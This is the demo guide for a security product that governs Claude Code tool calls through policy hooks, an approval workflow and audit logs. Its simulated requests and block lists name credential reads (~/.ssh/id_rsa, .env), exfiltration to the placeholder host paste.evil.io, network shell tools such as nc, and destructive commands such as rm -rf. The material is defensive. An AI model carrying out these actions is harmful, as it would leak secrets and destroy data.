

> Author: Deepankar Das

# AA Firewall — Product Demo

> A step-by-step showcase of AA Firewall governing an AI coding agent in real time.
> Duration: ~20 minutes. Audience: Security leads, platform engineers, CISOs.

---

## Demo Modes

Deployment runs post-deploy enforcement validation automatically (9 scenarios verifying allow/deny/require_approval decisions). Use `--skip-validation` to skip it.

Optional cleanup flag for repeat demos:
- `--reset-seeded-session-data` clears seeded session events from PostgreSQL without touching credentials.

---

## Architecture Overview

In production, AA Firewall runs on **two different physical machines**:

### Management Hub (security team server)

The Hub is the command center for the security team. It runs on a server managed by IT/security — not on developer machines.

- **Distributes signed policies** to all Sentinels via mTLS
- **Aggregates audit events** from all developer machines into a central PostgreSQL database
- **Serves the Hub Console** (port 9201) — admin dashboard with all-developer analytics, approval workflow, policy management, group intelligence, and recommendations
- **Receives heartbeats** from Sentinels every 30 seconds — detects offline or tampered machines

### Sentinel (developer machine)

The Sentinel runs as a privileged service (root/LaunchDaemon) on each developer's machine. It is installed by IT via MDM or `sudo` — the developer never runs any install commands.

- **Enforces policy** on every Claude Code tool call via managed hooks
- **Managed VS Code Claude Code settings** are configured at two levels:
  - **Development / project-level:** `.claude/settings.json` in the project root (developer can install via `install-hooks.sh`)
  - **Enterprise MDM:** `/Library/Application Support/ClaudeCode/managed-settings.json` (pushed by the Hub policy, `allowManagedHooksOnly=true` — developer cannot modify or remove these hooks)

  When the developer opens VS Code, Claude Code reads the managed settings and governance activates automatically.
- **Serves the Sentinel Console** (embedded at port 9100) — developer-personal view showing their own blocks, compliance score, and tips. No admin access.
- Sentinel Console routes are developer-only (`/`, `/sessions`, `/search`, `/export`, `/developer/me`). It does not ship Hub analytics/policy/approvals pages.
- **Forwards audit events** to the Hub via mTLS — the Hub sees everything

### Communication Model

```
Physical Machine A: Developer Workstation
  Sentinel (developer machine)
    │
    │  Registration
    │  Policy sync (pull)
    │  Audit event forwarding
    │  Heartbeat (every 30s)
    │
    └──── mTLS (outbound) ────► Physical Machine B: Security Hub Server
                                 Management Hub (security server)
                                   │
                                   │ Stores in Hub PostgreSQL
                                   │ Admin sees all developers
                                   │ Approvals managed here
                                   │ Analytics + recommendations
                                   ▼
                                 Security admin opens Hub Console (port 9201)

Developer interaction on Machine A:
  - Developer opens VS Code
  - Claude Code reads managed-settings.json
  - Hooks fire on every tool call
  - Sentinel Console (port 9100/login/) shows personal blocks + score
```

> **The Sentinel initiates all communication.** The Hub never connects to Sentinels — it only receives inbound connections. This means Sentinels behind firewalls and NATs work without any inbound port configuration. The Hub only needs to know its own address; each Sentinel is configured with the Hub URL (`AA_CENTRAL_URL=https://hub.company.com:9200`) during installation.

> **The Hub and Sentinel can run on different machines, different networks, different data centers.** The only requirement is that the Sentinel can reach the Hub on port 9200 (mTLS).  
> **Exception:** if the same person is both developer and admin (for local evaluation), both Hub and Sentinel can run on the same machine using the single-machine deploy flow (`localhost`).

---

## What You Will See

1. **An AI agent is blocked in real time** from:
   - Writing files outside the project root (`~/.bashrc`, `/etc/passwd`, `~/.config/*`)
   - Reading secrets and credentials (`~/.ssh/id_rsa`, `~/.aws/credentials`, `.env`, `.pem` files)
   - Connecting to unauthorized hosts (data exfiltration to `paste.evil.io`, unknown APIs)
   - Accessing credential stores (`cat .env`, `printenv`, `aws configure`, `vault read`)

2. **Destructive and risky commands require human approval** — the hook denies immediately with an approval-required message, and the developer keeps working:
   - Claude Code's `PreToolUse` hook fires. The hook handler calls `POST /v1/evaluate` on the Sentinel daemon. The daemon matches a `require_approval` policy, creates a pending approval, and returns an `approval_id`.
   - The hook exits with code 2 **immediately** — the developer is NOT blocked or frozen. Claude Code shows a denial message with the approval request ID and instructions to retry after admin approval. The developer continues working on other tasks.
   - The Sentinel client agent (syncing every 3 seconds) pushes the pending approval to the Management Hub via `POST /api/v1/approvals/push`.
   - The Hub Console Approvals page shows the pending approval with full context: who requested it, the exact command, which policy triggered, and the risk rationale. The admin clicks **Approve** or **Deny**.
   - The next client agent sync picks up the decision and resolves it locally on the Sentinel daemon, creating a single-use pre-approval scope.
   - The developer retries the command. The hook fires again, the daemon's `CheckScope()` finds the pre-approval, and the hook exits with code 0. Claude Code executes the command. The scope is consumed (one-time use).

   Threat categories that trigger the approval flow:
   - **File system destruction:** `rm -rf`, `shred`, `mkfs`, `dd if=`
   - **Git history rewrite:** `git push --force`, `git push -f`, `git reset --hard`
   - **Permission/ownership change:** `chmod`, `chown`, `chattr`
   - **Process termination:** `kill -9`, `kill -KILL`, `pkill`, `killall`
   - **Supply chain risk:** `npm install`, `pip install`, `brew install`, `yarn add`, `cargo install`, `gem install`, `go install` — with package name and registry extracted
   - **Network reconnaissance:** `nmap`, `nc`, `netcat`, `telnet`, `traceroute`
   - **Privilege escalation:** `sudo`, `su -`, `doas`, `docker run --privileged`
   - **MCP tool governance:** calls to untrusted or unregistered MCP servers, blocked tools on warning-list servers

3. **A security reviewer approves or denies** actions from the Hub Console — with full context: who requested it, what they're trying to do, which policy triggered, risk rationale, and session history

4. **An admin toggles enforcement** on and off — the agent behavior changes immediately. Unauthorized toggle attempts return 401. Every toggle is audit-logged with who changed it and when.

5. **Policy rules are managed live** — 13 default rules, 8 pre-built industry packs (Source Code Protection, Supply Chain Security, Secrets Hardening, Infrastructure Safety, Network Egress Control, Compliance/SOC2/HIPAA, Developer Best Practices, MCP Tool Governance). Rules can be toggled, added, deleted, or applied from packs — all via the Hub Console or API.

6. **A complete, tamper-proof audit trail** — every action produces a structured audit event with 15+ fields. SHA-256 hash chain links events (tampering, reordering, or deletion is detectable). Ed25519 signed evidence exports for compliance and incident response. Session replay shows the full chronological timeline.

7. **Every action is logged** — allowed, denied, approval decisions, enrichment events, anomaly alerts, enforcement state changes, policy modifications. Nothing is silent. Even when enforcement is disabled, actions are logged with `ENFORCEMENT_DISABLED` reason.

8. **OS kernel enforcement interface (Phase 2)** — the `KernelEnforcer` interface defines how AA Firewall will intercept `file.open`, `execve`, and `connect` syscalls at the kernel level (eBPF on Linux, Endpoint Security Framework on macOS). The interface, types, and integration path are built. A `StubEnforcer` implements the interface and logs every invocation. The real eBPF/ESF module that actually blocks syscalls is planned for Phase 2.

9. **Enterprise analytics reduces admin cognitive load** — instead of reviewing thousands of individual events, the admin sees: stack-ranked blocked operations with trends, 10 auto-classified developer groups (Power Builder, Boundary Tester, Automation Driver, etc.), a friction heatmap showing which policies cause the most pain for which groups, and one-click policy recommendations with impact estimates. Each developer gets a personal awareness scorecard with compliance score, contextual tips, and weekly digests.

> **Critical: Governance is always on.** In enterprise deployment, the security team pushes AA Firewall to developer machines via MDM (Jamf, Intune, Ansible). The developer never installs anything. When they open VS Code, Claude Code reads the managed settings file (`/Library/Application Support/ClaudeCode/managed-settings.json` with `allowManagedHooksOnly=true`) and governance activates automatically. The developer cannot disable enforcement, remove hooks, kill the daemon, modify policies, or bypass the firewall via raw terminal. Every layer is tamper-resistant: managed hooks prevent removal, the daemon runs as root and auto-restarts, admin tokens are required for any configuration change, and OS kernel enforcement (Phase 2) will block unauthorized syscalls at the kernel level.

---

## Setup (One-time, 3 minutes)

> **Prerequisite:** Follow [AA_Firewall_SETUP.md](./AA_Firewall_SETUP.md) first (prerequisites, deployment modes, and seed-auth options). Run this demo only after setup is complete.

### One-Machine Demo (Developer Is Admin)

```bash
# 1. Install prerequisites (includes PostgreSQL, Go, Node.js — starts PG automatically)
./scripts/prepare.sh

# 2. Build everything (TypeScript + Go binaries — does NOT need PostgreSQL)
./scripts/build.sh

# 3. Deploy Hub + Sentinel (runs enforcement validation automatically)
#    Replace YOUR_PASSWORD and DEV_PASSWORD with your own values.
sudo ./scripts/deploy_single_machine_hub_sentinel.sh \
  --seed-auth \
  --seed-hub-admin-user admin \
  --seed-hub-admin-password "YOUR_ADMIN_PASSWORD" \
  --seed-dev-user "$(whoami)" \
  --seed-dev-password "YOUR_DEV_PASSWORD"
```

> `prepare.sh` installs and starts PostgreSQL. `deploy_single_machine_hub_sentinel.sh` configures Hub + Sentinel on one machine and runs enforcement validation automatically.
>
> `--seed-dev-user` defaults to the invoking sudo user (`$SUDO_USER`) if omitted. `--seed-hub-admin-user` defaults to `admin`.

### Two-Machine Demo Setup

For a production-realistic demo with separate Hub and Sentinel:

> If you are both developer and admin and only need local evaluation, use the single-machine flow instead.

**Machine 1 — Management Hub (security team server):**

```bash
./scripts/prepare.sh
cd go && make build && cd ..
sudo ./scripts/deploy_hub.sh \
  --seed-auth \
  --seed-admin-password "YOUR_ADMIN_PASSWORD"
```

This sets up PostgreSQL, generates mTLS certificates, deploys the policy bundle, and starts the Hub. Hub Console: `http://<hub-server>:9201`

**Machine 2 — Sentinel (developer machine):**

```bash
sudo AA_CENTRAL_URL=https://<hub-server>:9200 ./scripts/deploy_sentinel.sh \
  --seed-auth \
  --seed-dev-user "$(whoami)" \
  --seed-dev-password "YOUR_DEV_PASSWORD"
```

Sentinel Console: `http://localhost:9100/login/` (developer sees their own activity only)

> **Key difference:** In two-machine mode, approvals are managed on the Hub Console (`http://<hub-server>:9201/approvals`), not on the Sentinel. The developer's Sentinel Console shows blocks and compliance — but no approve/deny buttons.

Demo login values:
- Hub Console: http://localhost:9201 — username `admin`, your admin password
- Sentinel Console: http://localhost:9100/login/ — your OS username, your dev password

---

## Verify Hooks Are Active

After deployment, confirm that governance hooks are enforced and the daemon is running:

```bash
./scripts/install-hooks.sh --status
```

Expected output:
```
[ENFORCED]  Managed hooks active (allowManagedHooksOnly=true)
[OK]        Hook binary: /usr/local/bin/aafirewall-hook
[OK]        Sentinel daemon running on port 9100
```

---

## Demo Part 1: The Agent Gets Blocked

These commands simulate an AI coding agent's actions. Each `curl` is what the enforcement hook sends to the daemon when Claude Code uses a tool.

### 1.1 Safe work passes silently

```bash
curl -s -X POST http://localhost:9100/v1/evaluate \
  -H "Content-Type: application/json" \
  -d '{
    "request_id": "demo-001",
    "timestamp": "'$(date -u +%Y-%m-%dT%H:%M:%SZ)'",
    "actor": {"user_id": "deepankardas", "agent_type": "claude_code", "agent_instance": "vscode", "session_id": "demo-session-1"},
    "environment": {"workspace": "'$(pwd)'", "repo": "acme/backend", "branch": "main", "tier": "development", "deployment_mode": "host"},
    "action": {"type": "file.write", "attempted_action": "Write refactored auth module to src/auth.ts"},
    "resource": {"kind": "file", "path": "'$(pwd)'/src/auth.ts", "classification": []}
  }' | python3 -m json.tool
```

**Expected:** `"decision": "allow"` — the file is inside the project directory. The developer sees nothing. The agent works normally.

### 1.2 Writing outside the project is BLOCKED

```bash
curl -s -X POST http://localhost:9100/v1/evaluate \
  -H "Content-Type: application/json" \
  -d '{
    "request_id": "demo-002",
    "timestamp": "'$(date -u +%Y-%m-%dT%H:%M:%SZ)'",
    "actor": {"user_id": "deepankardas", "agent_type": "claude_code", "agent_instance": "vscode", "session_id": "demo-session-1"},
    "environment": {"workspace": "'$(pwd)'", "repo": "acme/backend", "branch": "main", "tier": "development", "deployment_mode": "host"},
    "action": {"type": "file.write", "attempted_action": "Write config to ~/.bashrc"},
    "resource": {"kind": "file", "path": "'$HOME'/.bashrc", "classification": []}
  }' | python3 -m json.tool
```

**Expected:** `"decision": "deny"`, `"reason_code": "PATH_OUTSIDE_PROJECT_ROOT"`

**What Claude Code sees:**
```
[AA Firewall] BLOCKED: Write outside the project directory is blocked by organization policy.
Policy: org.block_non_project_writes
Reason: PATH_OUTSIDE_PROJECT_ROOT
```

### 1.3 Reading SSH keys is BLOCKED

```bash
curl -s -X POST http://localhost:9100/v1/evaluate \
  -H "Content-Type: application/json" \
  -d '{
    "request_id": "demo-003",
    "timestamp": "'$(date -u +%Y-%m-%dT%H:%M:%SZ)'",
    "actor": {"user_id": "deepankardas", "agent_type": "claude_code", "agent_instance": "vscode", "session_id": "demo-session-1"},
    "environment": {"workspace": "'$(pwd)'"},
    "action": {"type": "file.read", "attempted_action": "Read ~/.ssh/id_rsa"},
    "resource": {"kind": "file", "path": "'$HOME'/.ssh/id_rsa", "classification": ["sensitive_path"]}
  }' | python3 -m json.tool
```

**Expected:** `"decision": "deny"`, `"reason_code": "SENSITIVE_PATH_READ_BLOCKED"`

### 1.4 Network to unknown host is BLOCKED

```bash
curl -s -X POST http://localhost:9100/v1/evaluate \
  -H "Content-Type: application/json" \
  -d '{
    "request_id": "demo-004",
    "timestamp": "'$(date -u +%Y-%m-%dT%H:%M:%SZ)'",
    "actor": {"user_id": "deepankardas", "agent_type": "claude_code", "agent_instance": "vscode", "session_id": "demo-session-1"},
    "environment": {"workspace": "'$(pwd)'"},
    "action": {"type": "network.request", "attempted_action": "POST source code to paste.evil.io"},
    "resource": {"kind": "host", "host": "paste.evil.io", "classification": ["potential_exfiltration"]}
  }' | python3 -m json.tool
```

**Expected:** `"decision": "deny"`, `"reason_code": "HOST_NOT_ALLOWLISTED"`

### 1.5 Network to allowlisted host is ALLOWED

```bash
curl -s -X POST http://localhost:9100/v1/evaluate \
  -H "Content-Type: application/json" \
  -d '{
    "request_id": "demo-005",
    "timestamp": "'$(date -u +%Y-%m-%dT%H:%M:%SZ)'",
    "actor": {"user_id": "deepankardas", "agent_type": "claude_code", "agent_instance": "vscode", "session_id": "demo-session-1"},
    "environment": {"workspace": "'$(pwd)'"},
    "action": {"type": "network.request", "attempted_action": "Fetch from api.openai.com"},
    "resource": {"kind": "host", "host": "api.openai.com", "classification": []}
  }' | python3 -m json.tool
```

**Expected:** `"decision": "allow"` — `api.openai.com` is on the allowlist.

**Takeaway:** The firewall knows the difference between legitimate API calls and exfiltration attempts.

---

## Demo Part 2: Human-in-the-Loop Approval

> This section demonstrates the complete non-blocking approval workflow. In a real deployment, Claude Code fires the hook, the hook denies immediately with an approval-required message, the developer continues working, the admin reviews and decides on the Hub Console, and the developer retries the command after approval.

### End-to-end approval flow diagram

```
Developer asks Claude Code: "rm -rf node_modules"
    |
    v  PreToolUse hook fires
    |
    v  Hook handler -> POST /v1/evaluate -> Sentinel daemon
    |
    v  Policy: org.approve_destructive_commands -> require_approval
    |
    v  Daemon creates pending approval, returns approval_id
    |
    v  Hook exits 2 IMMEDIATELY with message:
    |   "[AA Firewall] APPROVAL REQUIRED: Destructive command requires approval.
    |    Policy: org.approve_destructive_commands
    |    Request ID: apr_xxx
    |    An approval request has been sent to your security admin.
    |    Re-run this command after the admin approves it."
    |
    v  Developer continues working on other tasks in Claude Code
    |
    v  Sentinel client agent (every 3s) pushes pending approvals to Hub
    |   POST /api/v1/approvals/push -> Hub stores them
    |
    v  Hub Console shows pending approval on Approvals page
    |   Admin clicks Approve or Deny
    |   POST /api/v1/approvals/{id}/resolve
    |
    v  Next client agent sync picks up the decision
    |   Resolves it locally with single-use scope on daemon
    |
    v  Developer retries: "rm -rf node_modules"
    |
    v  Hook fires again -> POST /v1/evaluate -> daemon
    |   CheckScope() finds pre-approval -> allow -> exit 0
    |
    v  Command executes (scope consumed — one-time use)
```

### 2.1 Destructive command requires approval

This simulates what the hook handler sends to the daemon when Claude Code attempts a destructive command:

```bash
curl -s -X POST http://localhost:9100/v1/evaluate \
  -H "Content-Type: application/json" \
  -d '{
    "request_id": "demo-006",
    "timestamp": "'$(date -u +%Y-%m-%dT%H:%M:%SZ)'",
    "actor": {"user_id": "deepankardas", "agent_type": "claude_code", "agent_instance": "vscode", "session_id": "demo-session-1"},
    "environment": {"workspace": "'$(pwd)'"},
    "action": {"type": "shell.exec", "attempted_action": "rm -rf node_modules && npm install"},
    "resource": {"kind": "command", "value": "rm -rf node_modules && npm install", "classification": ["destructive"]}
  }' | python3 -m json.tool
```

**Expected:** `"decision": "require_approval"`, `"approval_id": "apr_..."`

The hook exits with code 2 immediately. The developer is **not** blocked -- they see a denial message with the approval request ID and instructions to retry after the admin approves. The developer continues working on other tasks. In the background, the Sentinel client agent pushes the pending approval to the Hub. Once the admin approves on the Hub Console, the developer retries the command and it succeeds (the daemon's `CheckScope()` finds the single-use pre-approval).

### 2.2 Approval propagation: Sentinel to Hub

Behind the scenes, the Sentinel client agent is syncing with the Management Hub every 3 seconds. On its next sync cycle, it pushes the pending approval to the Hub via `POST /api/v1/approvals/push`. The Hub stores the approval and makes it visible on the Hub Console.

In a two-machine deployment, this is the only way approvals reach the admin -- the Sentinel initiates all communication. The Hub never connects inbound to the Sentinel.

### 2.3 Approve from the Hub Console

Open http://localhost:9201/approvals in your browser.

You will see the pending approval with full context:
- **Actor:** developer via claude_code (user ID, agent type, session ID)
- **Command:** `rm -rf node_modules && npm install`
- **Risk rationale:** Matches destructive command pattern (`rm -rf`)
- **Policy:** `org.approve_destructive_commands`

Click **Approve** to allow the command or **Deny** to block it.

After the admin clicks, the Hub stores the resolution. On the next client agent sync (within 3 seconds), the Sentinel picks up the decision and resolves it locally on the daemon, creating a single-use pre-approval scope (if approved). The developer is not waiting -- they were free to continue working since the initial denial. When the developer retries the command, the hook fires again, the daemon's `CheckScope()` finds the pre-approval, and the hook exits with code 0. Claude Code executes the command and the scope is consumed (one-time use). If the admin denied, the retry is denied again with the admin's rationale.

### 2.4 Approve via API (alternative)

Instead of the Hub Console, the admin can resolve approvals via the API:

```bash
# Get the approval ID from the response in step 2.1
APPROVAL_ID="apr_demo-006_..."  # Replace with actual ID

# Get the admin token
TOKEN=$(cat /tmp/aa-firewall-admin-token 2>/dev/null || echo "your-admin-token")

# Approve
curl -s -X POST "http://localhost:9100/v1/approvals/$APPROVAL_ID/resolve" \
  -H "Content-Type: application/json" \
  -H "X-Admin-Token: $TOKEN" \
  -d '{"decision": "approve", "approver_id": "security-lead", "rationale": "Safe — rebuilding dependencies"}' \
  | python3 -m json.tool
```

### 2.5 Check pending approvals

```bash
curl -s http://localhost:9100/v1/approvals/pending | python3 -m json.tool
```

After approval, `"count": 0` — no pending approvals. A single-use scope has been created for the approved command, ready for the developer to retry.

### 2.6 What happens if the admin never responds

The pending approval remains in the system until the admin acts on it. Since the developer was never blocked (they received an immediate denial and continued working), there is no timeout pressure on the developer side. If the admin eventually denies or the approval expires per Hub policy, the developer's retry will be denied again. The audit trail records the approval lifecycle.

---

## Demo Part 3: Admin Console — Toggle Enforcement

### 3.1 Check current enforcement state

```bash
curl -s http://localhost:9100/v1/enforcement | python3 -m json.tool
```

**Expected:** `"enabled": true`

### 3.2 Disable enforcement (admin only)

```bash
TOKEN=$(cat /tmp/aa-firewall-admin-token 2>/dev/null || echo "your-admin-token")

curl -s -X POST http://localhost:9100/v1/enforcement/toggle \
  -H "Content-Type: application/json" \
  -H "X-Admin-Token: $TOKEN" \
  -d '{"enabled": false, "changed_by": "security-lead"}' \
  | python3 -m json.tool
```

**Expected:** `"enabled": false`

### 3.3 Now the same blocked action is ALLOWED

```bash
# Same outside-project write that was denied before
curl -s -X POST http://localhost:9100/v1/evaluate \
  -H "Content-Type: application/json" \
  -d '{
    "request_id": "demo-007",
    "timestamp": "'$(date -u +%Y-%m-%dT%H:%M:%SZ)'",
    "actor": {"user_id": "deepankardas", "agent_type": "claude_code", "agent_instance": "vscode", "session_id": "demo-session-1"},
    "environment": {"workspace": "'$(pwd)'"},
    "action": {"type": "file.write", "attempted_action": "Write to ~/.bashrc"},
    "resource": {"kind": "file", "path": "'$HOME'/.bashrc", "classification": []}
  }' | python3 -m json.tool
```

**Expected:** `"decision": "allow"`, `"reason_code": "ENFORCEMENT_DISABLED"`

**Takeaway:** The admin can disable enforcement for emergencies, but the action is still logged with `ENFORCEMENT_DISABLED` reason — the audit trail never stops.

### 3.4 Re-enable enforcement

```bash
curl -s -X POST http://localhost:9100/v1/enforcement/toggle \
  -H "Content-Type: application/json" \
  -H "X-Admin-Token: $TOKEN" \
  -d '{"enabled": true, "changed_by": "security-lead"}' \
  | python3 -m json.tool
```

### 3.5 Unauthorized toggle attempt is REJECTED

```bash
# Without admin token — should fail
curl -s -X POST http://localhost:9100/v1/enforcement/toggle \
  -H "Content-Type: application/json" \
  -d '{"enabled": false}' 2>&1
```

**Expected:** `401 Unauthorized` — developers cannot disable the firewall.

---

## Demo Part 4: Policy Management (Hub-Only)

### 4.1 View active policy rules

```bash
curl -s http://localhost:9100/v1/policy/rules | python3 -m json.tool
```

Shows all 13 active rules with their IDs, action types, effects, and reason codes.

### 4.2 Local Sentinel policy mutation is blocked (expected)

```bash
curl -s -X POST http://localhost:9100/v1/policy/rules/org.block_non_project_writes/toggle \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool
```

**Expected:** `403` with `local_policy_edit_disabled`.  
Enterprise mode requires policy changes through the Management Hub only.

### 4.3 Fetch the active Hub policy bundle

```bash
TOKEN=$(cat /tmp/aa-firewall-admin-token 2>/dev/null || echo "adm1")

curl -s http://localhost:9201/api/v1/policy \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool
```

### 4.4 Update policy in Hub (source of truth)

```bash
curl -s -X PUT http://localhost:9201/api/v1/policy \
  -H "Content-Type: application/json" \
  -H "X-Admin-Token: $TOKEN" \
  -d @/tmp/updated-policy.json | python3 -m json.tool
```

After the update, registered Sentinels pull the new bundle automatically (default sync every ~5s).

### 4.5 View available policy packs

```bash
curl -s http://localhost:9100/v1/policy/packs | python3 -m json.tool
```

Shows 8 pre-built packs:
1. Source Code Protection
2. Supply Chain Security
3. Secrets & Credentials Hardening
4. Infrastructure Safety
5. Network Egress Control
6. Compliance & Audit (SOC2/HIPAA)
7. Developer Best Practices
8. MCP Tool Governance

### 4.6 Applying packs locally is blocked in enterprise mode

```bash
curl -s -X POST http://localhost:9100/v1/policy/packs/supply-chain-security/apply \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool
```

**Expected:** `403` with `local_policy_edit_disabled`.  
Pack composition should be done in Hub policy management flow.

---

## Demo Part 5: Audit Trail and Forensic Review

> **In two-machine deployment:** The admin views the aggregated audit trail on the Hub Console (`http://<hub-server>:9201`). The Sentinel Console only shows the developer's own events. All Sentinel agents forward events to the Hub via mTLS — the Hub PostgreSQL contains every event from every developer.

### 5.1 View all sessions

```bash
curl -s http://localhost:9100/v1/audit/sessions \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool
```

Shows `demo-session-1` with event count and decision breakdown (allow/deny/require_approval).

### 5.2 Replay a session timeline

```bash
curl -s http://localhost:9100/v1/audit/sessions/demo-session-1 \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool
```

Shows every action in chronological order:
1. `file.write src/auth.ts` → **allow** (inside project)
2. `file.write ~/.bashrc` → **deny** (outside project)
3. `file.read ~/.ssh/id_rsa` → **deny** (sensitive path)
4. `network.request paste.evil.io` → **deny** (not allowlisted)
5. `network.request api.openai.com` → **allow** (allowlisted)
6. `shell.exec rm -rf node_modules` → **require_approval** → **approved**
7. `file.write ~/.bashrc` → **allow** (enforcement was disabled)

Each event includes: who did it, what they tried, what policy matched, what the decision was, and the observed effect.

### 5.3 Search by decision type

```bash
# Show only denied actions
curl -s "http://localhost:9100/v1/audit/events?decision=deny" \
  -H "X-Admin-Token: $TOKEN" | python3 -m json.tool
```

### 5.4 Export evidence package

```bash
curl -s "http://localhost:9100/v1/audit/export?session_id=demo-session-1" \
  -H "X-Admin-Token: $TOKEN" > evidence.json
cat evidence.json | python3 -m json.tool | head -20
```

The JSON package includes metadata (export timestamp, event count) and all events — suitable for compliance audits and incident investigations.

### 5.5 View in the Hub Console

Open http://localhost:9201 and navigate through:

1. **Dashboard** — shows action counts, blocked events, governed users/agents
2. **Sessions** — click `demo-session-1` to see the timeline
3. **Search** — filter by `deny` to see all blocked actions
4. **Export** — download the evidence package as JSON

---

## Demo Part 6: Live Claude Code Integration

> This part uses a real Claude Code instance. The demo scenarios above used `curl` to simulate agent actions. This section shows live governance with Claude Code. These tests work in all Claude Code environments: VS Code extension, CLI (`claude` in terminal), and desktop app. The managed hooks are read by Claude Code regardless of how it's launched.

### 6.1 Verify hooks are active

```bash
./scripts/install-hooks.sh --status
```

Expected output:
```
[ENFORCED]  Managed hooks active (allowManagedHooksOnly=true)
[OK]        Hook binary: /usr/local/bin/aafirewall-hook
[OK]        Sentinel daemon running on port 9100
```

If hooks are not active, redeploy. For VS Code, reload the window (Cmd+Shift+P → "Developer: Reload Window"). For CLI, restart `claude`.

> **The developer cannot override or disable AA Firewall.** The hooks are managed — the developer cannot remove them from their settings. The daemon runs as a system service — the developer cannot kill it. The admin token is not available to the developer — they cannot toggle enforcement.

### 6.2 Test: Safe action passes silently

Ask Claude Code: *"Read the README.md file and summarize it."*

**What you see:** Claude Code reads the file and responds normally — no interruption, no warning. The firewall allowed it silently.

**What to check:** Open the Hub Console at http://localhost:9201 — the action appears in the audit trail even though it was allowed.

### 6.3 Test: Blocked — deleting a file outside the project

> **Important:** These tests use dummy files you create specifically for the demo. Do NOT use real sensitive files (SSH keys, credentials, etc.) for testing. If you want to experiment with real files later, back them up first — AA Firewall will block the delete, but it's good practice to have backups before any security testing.

**Setup:** Open a terminal and create a dummy test file in your home directory:

```bash
echo "this is a dummy test file for the AA Firewall demo" > ~/secrets_outside.txt
```

**Run the test:** Ask Claude Code: *"Delete the file ~/secrets_outside.txt"*

**What you see:** Claude Code refuses. It shows a message like:

```
BLOCKED: Deleting files outside the project directory via shell command
is blocked by organization policy.
```

**Verify:** Check that the file still exists:

```bash
ls ~/secrets_outside.txt    # File is still there
```

The developer cannot override this — the block happens before the command runs.

**Cleanup:** Remove the test file yourself when done:

```bash
rm ~/secrets_outside.txt
```

### 6.4 Test: Approval required — deleting a file inside the project

This test shows the full approval workflow: the developer's action is paused, the admin reviews it on the Hub Console, and only then does it execute.

**Setup:** Create a dummy test file inside the project:

```bash
echo "this is a dummy test file for the AA Firewall demo" > secrets_inside.txt
```

**Step 1 — Ask Claude Code to delete it:** *"Delete the file secrets_inside.txt"*

**What you see:** Claude Code does NOT delete the file. Instead it shows:

```
APPROVAL REQUIRED: This command matches a destructive pattern.
Human approval is required before execution.
An approval request has been sent to your security admin.
Re-run this command after the admin approves it.
```

The developer can keep working on other tasks — they are not frozen.

**Step 2 — Approve on the Hub Console:**

Open http://localhost:9201/approvals/ in a browser. You see the pending request showing:
- Who made the request (the developer's username)
- What they want to do (`rm secrets_inside.txt`)
- Which policy flagged it (`org.approve_destructive_commands`)

Click **Approve**.

**Step 3 — Ask Claude Code again:** *"Delete the file secrets_inside.txt"*

**What you see:** This time it works — Claude Code deletes the file. The approval was a one-time grant for this specific command.

**Step 4 — Verify one-time approval:** Recreate the file and ask Claude Code to delete it again:

```bash
echo "this is a dummy test file for the AA Firewall demo" > secrets_inside.txt
```

Ask Claude Code: *"Delete the file secrets_inside.txt"*

**What you see:** Blocked again — a new approval is required. There are no blanket permissions. Every destructive command needs fresh admin approval.

### 6.5 Technical flow (what happens under the hood)

The tests above exercise this enforcement pipeline:

1. Claude Code calls a tool (Read, Write, Bash, etc.)
2. The `PreToolUse` managed hook fires — calls `/usr/local/bin/aafirewall-hook pre_tool_call`
3. The hook handler sends the action to the Sentinel daemon at `http://localhost:9100/v1/evaluate`
4. The daemon evaluates the action against the policy bundle (13 rules)
5. The daemon returns one of: `allow` (hook exits 0), `deny` (hook exits 2), or `require_approval` (hook exits 2 with approval request)
6. For `require_approval`: the Sentinel client syncs the pending approval to the Hub. The admin reviews it on the Hub Console. On approval, the Hub syncs a one-time scope back to the Sentinel. The next identical request matches the scope and is allowed.
7. Every action — allowed, denied, or pending — is recorded as an immutable audit event in PostgreSQL

### 6.5 Uninstall hooks when done

```bash
./scripts/install-hooks.sh --uninstall
```

---

## Key Takeaways for the Audience

| Question | Answer |
|---|---|
| **Does it slow down the developer?** | No. Safe work passes in <10ms. The developer never sees the firewall unless something is blocked. |
| **Can the developer disable it?** | No. The daemon runs as a system service. Managed hooks prevent removal. Admin token required for toggle. |
| **What does the security team see?** | Full audit trail: every action, every decision, every policy match. Exportable as JSON evidence. |
| **How are policies managed?** | YAML files with 8 pre-built packs. Rules can be toggled, added, or applied from the Hub Console. |
| **What happens if the daemon is down?** | Fail-closed by default (strict mode is enabled). Sentinel denies on error paths and refuses startup without required dependencies. |
| **Is the audit trail tamper-proof?** | PostgreSQL append-only (no UPDATE/DELETE). Hash-chain integrity. Ed25519 signed exports. |
| **What agents are supported?** | Claude Code (Phase 1). Cursor and Codex via MCP gateway (Phase 2). |
| **Is the code exposed on target machines?** | No. Go binaries are statically compiled. No source, no Node.js, no npm on target. |
| **What prevents bypass via raw terminal?** | Layer 4 (Phase 2): OS kernel enforcement. The `KernelEnforcer` interface is defined for intercepting `file.open`, `execve`, `connect` syscalls. A `StubEnforcer` proves the integration path. The real eBPF/ESF module that blocks syscalls is planned for Phase 2. Today, managed hooks + root-owned daemon + KeepAlive provide the enforcement layer. |
| **How long does the developer wait for approval?** | The developer does not wait. The hook denies immediately with an approval-required message and the developer continues working. Once the admin approves on the Hub Console, the developer retries the command and it succeeds via a single-use pre-approval scope. |
| **Who approves risky actions?** | A security admin or team lead on the Hub Console (`/approvals` page). Approvals can also be resolved via the Hub API. The developer's Sentinel Console shows blocks and compliance but has no approve/deny capability. |
| **What happens when an approval is denied?** | The hook handler exits with code 2. Claude Code blocks the command and shows the denial reason to the developer. The audit trail records the denial with the admin's identity, rationale, and timestamp. |
| **How fast does an approval decision reach the Sentinel?** | After the admin clicks Approve/Deny on the Hub Console, the Sentinel client agent picks up the decision within 3 seconds (sync interval) and creates a single-use pre-approval scope on the local daemon. The developer retries the command at their convenience -- the pre-approval is ready as soon as the sync completes. |

---

## Demo Part 7: Enterprise Deployment Architecture

> This section explains the full enterprise deployment model for a CISO audience.

